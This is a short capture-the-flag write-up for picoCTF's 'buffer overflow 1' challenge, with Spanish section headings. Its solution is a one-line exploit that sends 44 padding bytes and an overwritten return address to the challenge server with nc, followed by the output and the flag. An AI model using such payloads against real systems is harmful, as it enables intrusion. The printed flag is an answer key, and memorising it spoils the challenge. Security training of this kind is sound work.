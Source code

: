 # buffer overflow 1

## Descripción
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln). You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 64834`

## Pistas
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

## Solución
```bash
┌──(kali㉿kali)-[~/picoCTF/exploitation/overflow1]
└─$ {perl -e 'print"A"x44 . "\xf6\x91\x04\x08";';echo} | nc saturn.picoctf.net 62621 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}   
```

## Bandera
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}

## Notas adicionales
None

## Referencias
None